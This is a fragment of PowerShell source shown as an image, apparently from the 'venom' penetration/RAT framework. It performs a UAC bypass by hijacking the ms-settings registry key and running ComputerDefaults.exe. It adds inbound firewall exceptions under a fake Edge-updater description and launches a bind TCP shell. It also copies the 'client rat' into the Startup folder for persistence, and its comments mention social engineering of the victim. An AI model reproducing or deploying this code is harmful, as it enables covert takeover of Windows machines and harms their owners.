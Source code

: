 ```powershell


   ## Shell running under 'UserLand' privileges!
   $Command = "netsh advfirewall firewall add rule name=`"$ParseExePath`" description=`"venom v1.0.17 - edge_browser_updater`" program=`"$OutFile`" dir=in action=allow protocol=TCP enable=yes"
   ## Adding to remote regedit the 'ComputerDefaults' hijacking keys (EOP - UAC Bypass - UserLand)
   New-Item "HKCU:\Software\Classes\ms-settings\shell\open\Command" -Force -EA SilentlyContinue|Out-Null
   Set-ItemProperty "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value '' -Force|Out-Null
   Set-ItemProperty "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "(Default)" -Value "$Command" -Force|Out-Null
   Start-Process -WindowStyle hidden "$Env:WINDIR\System32\ComputerDefaults.exe" -Wait
   Remove-Item "HKCU:\Software\Classes\ms-settings\shell" -Recurse -Force|Out-Null

}ElseIf($IsClientAdmin -eq $True)
{

   ## Shell Running under Administrator privileges!
   netsh advfirewall firewall add rule name="$ParseExePath" description="venom v1.0.17 - edge_browser_updater" program="$OutFile" dir=in action=allow protocol=TCP enable=yes

}


## Execute bind tcp shell
Start-Sleep -Milliseconds 800
cd $PayloadRPath;&"$OutFile"


## Persistence function
If($Persiste -ieq "True")
{

   <#
   .SYNOPSIS
      Author: @r00t-3xp10it
      Helper - Persiste 'Client rat' on startup folder!

   .NOTES
      This function copys -OUtFile "<file>" into target startup folder!
      And creates a new firewall exception rule pointing to startup folder
      if MEdgeUpdaterService.exe its executed with administrator privileges!
   #>


   $PersisteMe = "$Env:APPDATA\Microsoft\Windows\Start" + " Menu\Programs\Startup\$ParseExePath" -join ''
   If(Test-Path -Path "$OutFile" -ErrorAction SilentlyContinue)
   {
      Copy-Item -Path "$OutFile" -Destination "$PersisteMe" -Force|Out-Null
   }

   If($IsClientAdmin -eq $True)
   {
      netsh advfirewall firewall add rule name="$ParseExePath" description="venom v1.0.17 - edge_browser_updater" program="$PersisteMe" dir=in action=allow protocol=TCP enable=yes
   }

}


## Final Social Engineering! (MsgBox)
```